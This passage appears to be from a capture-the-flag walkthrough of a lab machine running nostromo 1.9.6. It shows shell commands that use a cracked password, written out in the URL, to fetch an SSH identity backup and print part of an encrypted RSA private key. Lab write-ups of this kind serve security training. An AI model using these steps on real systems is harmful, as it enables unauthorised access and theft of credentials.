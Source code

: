     
    
    root@kali# curl 10.10.10.165/~david/protected-file-area/
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
    <html>
    <head>
    <title>401 Unauthorized</title>
    <meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
    </head>
    <body>
    
    <h1>401 Unauthorized</h1>
    
    <hr>
    <address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
    </body>
    </html>
    

I can add the username/password I cracked earlier, I can grab the file:

    
    
    root@kali# wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    --2019-11-22 14:30:35--  http://david:*password*@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    Connecting to 10.10.10.165:80... connected.
    HTTP request sent, awaiting response... 401 Unauthorized
    Authentication selected: Basic realm="David's Protected File Area. Keep out!"
    Reusing existing connection to 10.10.10.165:80.
    HTTP request sent, awaiting response... 200 OK
    Length: 1915 (1.9K) [application/x-tar]
    Saving to: ‘backup-ssh-identity-files.tgz’
    
    backup-ssh-identity-files.tgz         100%[======================================================================>]   1.87K  --.-KB/s    in 0s      
    
    2019-11-22 14:30:35 (47.4 MB/s) - ‘backup-ssh-identity-files.tgz’ saved [1915/1915]
    

I can decompress that with `tar`, and I get a backup of the home directories
with a private key:

    
    
    root@kali# tar -zxvf backup-ssh-identity-files.tgz 
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    root@kali# head home/david/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F
    
    seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
    tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
    KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
    RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
    HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
    Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
    